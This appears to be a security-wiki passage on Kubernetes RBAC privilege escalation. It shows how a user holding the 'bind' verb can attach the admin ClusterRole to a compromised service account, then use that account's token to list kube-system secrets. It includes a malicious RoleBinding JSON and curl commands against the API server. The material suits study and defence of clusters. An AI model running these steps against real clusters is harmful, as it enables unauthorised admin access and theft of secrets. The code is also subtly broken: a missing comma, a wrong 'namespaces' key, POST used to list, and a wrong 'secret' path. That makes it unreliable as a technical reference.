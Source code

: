 The privilege to create Rolebindings allows a user to **bind roles to a service account**. This privilege can potentially lead to privilege escalation because it **allows the user to bind admin privileges to a compromised service account.**

The following ClusterRole is using the special verb _bind_ that allows a user to create a RoleBinding with _admin_ ClusterRole (default high privileged role) and to add any user, including itself, to this admin ClusterRole.

![](https://www.cyberark.com/wp-content/uploads/2018/12/clusterRole\_with\_bind\_verb.png)

Then it's possible to create **`malicious-RoleBinging.json`**, which **binds the admin role to other compromised service account:**

```javascript
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "compromised-svc"
            "namespace": "default"
        }
    ]
}
```

The purpose of this JSON file is to bind the admin “CluserRole” (line 11) to the compromised service account (line 16).

Now, all we need to do is to send our JSON as a POST request to the API using the following CURL command:

```bash
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" \ 
-H "Content-Type: application/json" \
https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings \
 -d @malicious-RoleBinging.json
```

After the **admin role is bound to the “compromised-svc” service account**, we can use the compromised service account token to **list secrets**. The following CURL command will do this:

```bash
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>"\
-H "Content-Type: application/json"
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```
